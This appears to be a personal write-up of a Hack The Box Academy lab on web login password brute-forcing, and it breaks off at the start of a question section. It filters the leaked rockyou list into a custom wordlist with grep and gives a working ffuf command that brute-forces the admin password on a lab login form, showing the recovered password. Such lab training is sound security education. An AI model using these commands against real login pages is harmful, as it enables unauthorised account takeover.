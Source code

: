 ```shell-session
smoothment@htb[/htb]$ grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

smoothment@htb[/htb]$ wc -l custom_wordlist.txt

151647 custom_wordlist.txt
```

To start brute-forcing passwords, we need a user or a list of users to target. Using the techniques covered in the previous section, we determine that admin is a username for a valid user, therefore, we will attempt brute-forcing its password.

However, first, let us intercept the login request to know the names of the POST parameters and the error message returned within the response:

![image](https://academy.hackthebox.com/storage/modules/269/bf/pw_bf_2.png)

Upon providing an incorrect username, the login response contains the message (substring) "Invalid username", therefore, we can use this information to build our `ffuf` command to brute-force the user's password:

```shell-session
smoothment@htb[/htb]$ ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4764ms]
    * FUZZ: Buttercup1
```

After some time, we can successfully obtain the admin user's password, enabling us to log in to the web application:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/269/bf/pw_bf_3.png)

For more details on creating custom wordlists and attacking password-based authentication, check out the [Cracking Passwords with Hashcat](https://academy.hackthebox.com/module/details/20) and [Password Attacks](https://academy.hackthebox.com/module/details/147) modules. Further details on brute-forcing different variations of web application logins are provided in the [Login Brute Forcing](https://academy.hackthebox.com/module/details/57) module.

## Question

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250214145506.png)

Let's begin by visiting the website:

![](gitbook/cybersecurity/images/Pasted%20image%2020250214145956.png)
